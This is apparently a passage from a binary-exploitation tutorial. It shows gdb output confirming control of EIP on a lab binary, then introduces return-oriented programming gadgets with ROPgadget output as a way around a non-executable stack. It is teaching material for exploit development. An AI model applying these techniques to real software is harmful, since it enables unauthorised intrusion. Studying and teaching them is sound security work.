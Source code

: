 Running the script and attach gdb to the process allows us to verify that the EIP control works.

```
[----------------------------------registers-----------------------------------]
EAX: 0x80f15f8 ('A' <repeats 128 times>, "\370\025\017\b\230")
EBX: 0x80481b0 (<_init>:	push   ebx)
ECX: 0x10
EDX: 0x0
ESI: 0x80ee00c --> 0x8069c20 (<__strcpy_sse2>:	mov    edx,DWORD PTR [esp+0x4])
EDI: 0x3d ('=')
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd5f0 --> 0x0
EIP: 0xdeadc0de
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xdeadc0de
[------------------------------------stack-------------------------------------]
0000| 0xffffd5f0 --> 0x0
0004| 0xffffd5f4 --> 0x0
0008| 0xffffd5f8 --> 0x0
0012| 0xffffd5fc --> 0x0
0016| 0xffffd600 --> 0x0
0020| 0xffffd604 --> 0x0
0024| 0xffffd608 --> 0x0
0028| 0xffffd60c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0xdeadc0de in ?? ()
gdb-peda$
```

### Code Gadgets

Now, let's take a step back and think about how to proceed from this point. We cannot use the previous strategy of placing shellcode on the stack and jumping to it because the stack is now non-executable. One possible technique we can use is to reuse existing code in the binary.

If you have gone through the pre-requisite watching, you may realise that these snippets of useful code sequences that end in `ret` instructions are useful to construct a ROP chain. Some of these sequences might look like the following:

```
0x0804f065 : pop esi ; pop ebp ; ret
```

These are called gadgets. We can automate searching for these gadgets using a tool called `ROPgadget`.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ ROPgadget --binary 1_staticnx
Gadgets information
============================================================
0x080add78 : aaa ; add esp, 4 ; pop ebx ; pop esi ; ret
0x080706c8 : aaa ; lea esp, dword ptr [ebp - 0xc] ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080bbca9 : aaa ; push 1 ; push 1 ; call eax
... snip ...
0x08091a7c : xor esi, esi ; ret 0xf01

Unique gadgets found: 12307
```
